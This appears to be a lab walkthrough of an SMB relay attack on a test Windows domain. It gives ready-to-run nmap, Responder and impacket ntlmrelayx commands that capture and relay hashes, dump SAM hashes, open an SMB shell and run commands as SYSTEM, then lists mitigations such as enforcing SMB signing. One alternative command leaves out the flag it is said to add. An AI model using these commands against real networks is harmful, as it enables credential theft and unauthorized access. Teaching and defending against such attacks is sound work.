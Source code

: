 # SMB Relay Attack
# What is SMB?

SMB stands for Server Message Block. It's a network file sharing protocol that allows applications, clients, and servers to communicate and request services from each other over a network. SMB facilitates the sharing of files, printers, and other resources between devices on a network, typically in a Windows environment. SMB is commonly used for accessing shared files and folders on local area networks (LANs) and is an integral part of Windows networking.

# What is SMB Signing

SMB signing (also known as security signatures) is a security mechanism in the SMB protocol. SMB signing means that every SMB message contains a signature that is generated by using the session key. The client puts a hash of the entire message into the signature field of the SMB header.

# What is A SMB Relay Attack

An SMB relay attack is a type of cyber attack that exploits the authentication process used in the Server Message Block (SMB) protocol. In this attack, an attacker intercepts and relays SMB authentication messages between a client and a server to gain unauthorized access to network resources.

**Requirements for performing an SMB relay attack**  
- SMB signing must be disabled or not enforced on the target  
- Must be on the local network  
- For valuable outcomes, the relayed user’s credentials must have local admin status on the machine.
- You cannot relay credentials to the same machine they were captured from

# Attack Setup

**In our attack scenario:**

- A user named Frank Castle (fcastle) from the DEUSX.local domain has local administrator privileges on two machines.
- These machines have SMB signing enable but not required which is one of the criterion required to perform this attack 

**Steps to perform this attack:**

- Identify the machines that  do not require SMB signing. Nmap can be used for this.
- Configure and startup the necessary tools (ntlmrelayx and responder)
- Next, an event needs to occur such as a user trying to access a share which could lead to LLMNR Poisoning and thereby leads to a user's hash being intercepted and relayed.
- Finally, after the he intercepted credentials have been relayed, this can then lead to gaining unauthorized access.

# SMB Relay Attack DEMO

## Step 1: Scan Network for vulnerable targets

Using Nmap we can scan the entire network/subnet to discover targets with SMB signing enabled but not required.

![](attachments/20240302225536.png)

`nmap --script=smb2-security-mode.nse -p445 192.168.0.0/24 -Pn`

Using the smb2-security-mode script and scanning port 445 (SMB) `-p445` we scan the entire subnet to discover which machines have SMB signing not required. The `-Pn` switch is used to tell Nmap to not bother pinging targets before scanning.

Scan results:

![](attachments/20240302225725.png)

2 Machines discovered do not require SMB signing `192.168.0.182` and `192.168.0.178`. Now to add the IPs  of the machines to a text file like `targets.txt`.

## Step 2: Disable SMB and HTTP in the responder config file

File is located at `/etc/responder/Responder.conf`

![](attachments/20240302225938.png)

## Step 3: Start Responder

Start Responder on the same interface connected to your target network

![](attachments/20240302230017.png)

`sudo responder -I wlan0 -dPv`

- -I Specify interface
- -d Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.
- -P Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn’t need to be ON. This option is highly effective.
- -v Increase verbosity.

## Step 4: Start ntlmrelayx to perform the SMB Relay attack

Ensure to specify the file that contains the target IPs 'targets.txt'

![](attachments/20240302230214.png)

`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

## Step 2: An Even Occurs in the Network

Now we wait for the victim to attempt to access a share. The user fcastle will try and access a share named 'ECORP-DC' and mistakenly type 'ECCORP-DC'

![](attachments/20240302230556.png)

****
![](attachments/20240302230641.png)

Immediately the event occurred, Responder successfully intercepted the victim's hash and used it to authenticate another machine on the network as a local administrator and ntlmrelay successfully dumped the local SAM hashes. These can then be cracked using hashcat or John the ripper.

Even better, we don't even need to crack the hash to gain access to the machine, we can just perform a  [pass-the-hash](https://en.wikipedia.org/wiki/Pass_the_hash) attack to gain access.

## Further Attacks

An interactive smbclient can be obtained by adding a -i switch to the ntlmrelyax syntax:
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -i`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

![](attachments/20240302230921.png)

An interactive SMB client shell has been started on 127.0.0.1:11000 which can then be accessed using netcat.

![](attachments/20240302231035.png)

Commands can also be executed directly by using the -c switch.
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c 'command'`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'command'`

![](attachments/20240302231239.png)

The command `whoami` was successfully executed on the target system and we are `NT AUTHORITY/SYSTEM`

# SMB Relay Attack Mitigation

**Mitigation Strategies**:

- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies

- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: If kerberos stops working, Windows defaults back to NTLM

- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need to DA)
	- Con: Enforcing the policy may be difficult

- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

**To enforce SMB signing, enable the following policies in Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options:**

On the client side:

- Microsoft network client: Digitally sign communications (always)
- Microsoft network client: Digitally sign communications (if server agrees)

On the server side:

- Microsoft network server: Digitally sign communications (always)
- Microsoft network server: Digitally sign communications (if client agrees)

![](attachments/smb-9.png)

[source](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)

Thanks for Reading 👋
